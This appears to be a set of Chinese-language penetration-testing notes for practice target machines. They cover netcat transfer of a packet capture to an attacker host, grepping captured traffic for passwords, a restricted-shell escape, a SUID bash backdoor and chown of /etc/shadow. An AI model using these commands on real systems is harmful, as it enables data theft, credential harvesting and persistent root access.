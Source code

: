 - 靶机上传文件

  nc

  ```
  kali执行：nc -l -p 9999 > derp.pcap 
  目标靶机执行：nc 192.168.10.9 9999 < derpissues.pcap
  ```

  python 和 wget

  ```
  python -m http.server 1234
  wget http://xxxx.com/xxx.pcap
  ```

- 分析流量文件

  ```
  wireshark  XXX.pacp
  过滤 POST http.request.method=="POST"
  ```

  或者

  ```
  tcpdump -qns 0 -X -r derp.pcap > bmfxderp.txt
  tcpdump -nt -r derp.pcap -A 2>/dev/null | grep -P 'pwd='
  ```

- 目录枚举后，得到了很多存在的 url ，此时可以把这里的目录整理（用 grep、 awk 与管道符整理）到一个 url.list 字典文件中，用 curl 命令 批量访问，替升效率

  ```bash
  for i in `cat url.list`;do curl $i;done
  ```

- lshell 受限制 shell 的绕过

  ```bash
  intern:~$ echo $SHELL
  /usr/local/bin/lshell
  ```

  全网找方法 [Lshell - aldeid](https://www.aldeid.com/wiki/Lshell)

  ```bash
  echo os.system('/bin/bash')
  echo && 'bash'
  ```

- 例子1：linux权限维持的想法，把 bin/bash 复制出来并加上 s 位权限

  ```bash
  cp /bin/bash /tmp/getroot
  chmod +s /tmp/getroot
  /tmp/getroot -p
  ```

  例子2：改变 /etc/shadow 的拥有者权限，`chown` 命令

  ```bash
  chown -R john:john /etc/shadow
  ```
